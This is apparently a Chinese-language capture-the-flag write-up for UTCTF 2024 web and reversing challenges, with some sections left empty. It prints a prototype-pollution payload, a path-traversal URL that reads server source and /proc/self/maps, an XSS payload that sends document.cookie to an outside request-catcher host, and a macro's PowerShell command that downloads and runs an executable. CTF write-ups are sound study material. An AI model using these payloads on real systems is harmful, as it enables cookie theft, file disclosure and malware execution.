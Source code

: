 # web
### Beginner: Off-Brand Cookie Clicker
前端题,直接js找接口
### Schrödinger
zip软链接读取文件
`mklink /home/xxxx/flag.txt flag`

### Easy Mergers v0.1
一个创建公司(json)并允许使用merge合并,应该是原型链污染,没找到要污染的属性
payload
`{"attributes":["__proto__"],"values":[{"cmd":"whoami"}]}`
污染cmd属性
![image.png](https://gitee.com/leiye87/typora_picture/raw/master/20240401194743.png)

### Home on the Range
主页只有一个 **Directory listing of www**
文件夹下有一个hello.html,访问只有一个hello
Server:BaseHTTP/0.6 Python/3.12.2

---
没想到真的是../路径穿越,偷懒使用浏览器url编码,还得是postman或者burp
读取服务器源码
`http://guppy.utctf.live:7884/../../server.py`
根据代码猜测会跟http range头有关
设置`bytes=100-500`可以读取指定文件的字节范围
读取当前进程的内存,并使用range获取指定范围
读取进程内存映射
`/proc/self/maps`
选择rw区域并脚本run

### Unsound
一个rust写的web页面,可以加密和解密数据,加密在前端,解密在后端且不返回解密得到的数据,前端还是wasm,用了wabt结果还反编译不了

---
1. the decrypt has a C-struct in it with a buffer for the decrypted message of 300bytes; if you overflow this, you'll overwrite the success-message.
2. payload to encrypt:
```
fill_buffer = 'A'*300
xss_payload = '''<img src=x onerror="fetch('https://matthias.requestcatcher.com/test?c=' + document.cookie,{ method:'GET'})" >'''
data_to_encrypt = fill_buffer + xss_payload
```
存在溢出,让内部服务器触发xss去带出cookie

3. Then decrypt the encrypted stuff and catch the fetch request somehow
 
xss triggers, because if you add the img-tag to the dom, it tries to load the img, fails and thus triggers the js
you'll receive 2 requests to your server; first is from your local machine, running the wasm; second one (roughly 12 seconds later - when I tested it) was the backend server requesting it


# reverse
### Beginner: Basic Reversing Problem
sym.l* 函数按顺序即可得到flag,但是没找到radare2脚本来一把梭出来
`afi @@ sym.l* ~name[1]`

### Fruit Deals
一个恶意的xlsm文件,应该是要分析恶意宏
`Alt+F11`打开宏文件
改一下脚本打印执行的命令

`poWeRsHELL -command "$oaK = new-object Net.WebClient;$OrA = 'http://fruit.gang/malware';$CNTA = 'banANA-Hakrz09182afd4';$jri=$env:public+'\'+$CNTA+'.exe';try{$oaK.DownloadFile($OrA, $jri);Invoke-Item $jri;break;} catch {}"`
问的是恶意文件的名字,
`banANA-Hakrz09182afd4.exe`
### PES-128

# pwn

# crypto

# Misc


---
# *相关wp*




2024-04-01   19:42
